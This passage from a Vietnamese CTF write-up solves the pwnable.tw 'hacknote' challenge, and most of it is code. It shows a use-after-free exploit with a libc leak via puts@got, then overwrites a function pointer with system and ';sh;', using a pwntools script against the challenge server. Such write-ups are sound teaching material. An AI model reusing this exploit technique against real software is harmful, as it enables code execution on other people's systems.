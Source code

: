 ```
    r.sendafter(b'Index :', str(index))
```

Tiếp theo tạo 2 note rồi free chúng

```
create(16, b'a'*4)
create(16, b'b'*4)
delete(0)
delete(1)
```

Tạo 1 note mới với giá trị là hàm in ra giá trị note và `puts@got` để leak địa chỉ puts từ đó tính được libc base:

```
create(8, p32(print_note) + p32(exe.got['puts']))
print(0)
puts_leak = u32(r.recv(4))
log.info("puts leak: " + hex(puts_leak))
libc.address = puts_leak - libc.sym['puts']
log.info("libc base: " + hex(libc.address))
```

Đã leak được libc thì xóa note vừa tạo đi rồi chèn địa chỉ hàm `system` của libc vào

```
delete(2)
create(8, p32(libc.sym['system']) + b';sh;')
printf(0)
```

Ta có script như sau:

```
#!/usr/bin/env python3

from pwn import *

exe = ELF("./hacknote_patched", checksec=False)
libc = ELF("./libc_32.so.6", checksec=False)
ld = ELF("./ld-2.23.so", checksec=False)
#r = process(exe.path)
r = remote('chall.pwnable.tw', 10102)

def create(size, data):
    r.sendafter(b'choice :', b'1')
    r.sendafter(b'size :', str(size))
    r.sendafter(b'Content :', data)
    r.recvuntil(b'Success !')

def delete(index):
    r.sendafter(b'choice :', b'2')
    r.sendafter(b'Index :', str(index))
    r.recvuntil(b'Success')

def printf(index):
    r.sendafter(b'choice :', b'3')
    r.sendafter(b'Index :', str(index))

print_note = 0x0804862b
create(16, b'a'*4)
create(16, b'b'*4)
delete(0)
delete(1)
create(8, p32(print_note) + p32(exe.got['puts']))
printf(0)
puts_leak = u32(r.recv(4))
```